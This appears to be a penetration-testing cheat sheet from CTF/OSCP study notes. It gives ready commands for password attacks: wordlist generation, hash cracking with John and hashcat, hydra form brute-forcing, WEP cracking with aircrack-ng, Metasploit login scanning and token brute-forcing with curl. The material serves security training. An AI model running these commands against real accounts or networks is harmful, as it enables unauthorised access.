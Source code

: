 # Password Attack
Any possibility that the user will re use the password????

### Wordlists
Generate a custom wordlist
cewl -w createWordlist.txt -m <min password length> https://www.example.com

### Offline
https://hashes.org/search.php

john the ripper
john --wordlist=/user/share/wordlists/rockyou.txt hash.txt

Hashcat << check type online - hashcat sample hash
hashcat -m\<type> -a 0 /usr/share/wordlists/rockyou.txt hash.txt

### Online
HTTP post form

hydra -L <wordlist> -P<password list> <IP> http-post-form "<file path>:username=^USER^&password=^PASS^&Login=Login:<fail message>"

1. easy password? e.g. password, 123456
2. Company or site name or its variations? e.g. use the software name as password
3. Name=Password and other hints
4. Simple sequences
5. Basic words

# WiFi
## WEP
```sh
# -b <bssid> : target selection: access point's MAC
aircrack-ng -b 00:21:91:d2:8e:25 WEP-Cracking.cap
```

# HTTP
## Basic Authentication
metasploit `http_login` module
```sh
use auxiliary/scanner/http/http_login
set RHOSTS 192.165.34.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /poc/
exploit
```
## Token Authentication
Hydra and metasploit `http_login` module doesn’t support token authentication.
We have to set the token in headers for token auth to work.
```sh
curl -H 'Authorization: Token <token>' 192.183.171.3
```
We have to write a custom wrapper around this command. In the script, we will rely on the fact
that on using the correct token, we will get something else than "Unauthorized Access".

You can refer this script <https://github.com/jai-the-seeker/CTF-OSCP/blob/master/scripts.md#authorization-token>

After performing the dictionary attack we will get the password, which can be used to set the token in the headers
```sh
curl -H 'Authorization: Token 123123123' 192.186.248.3
```

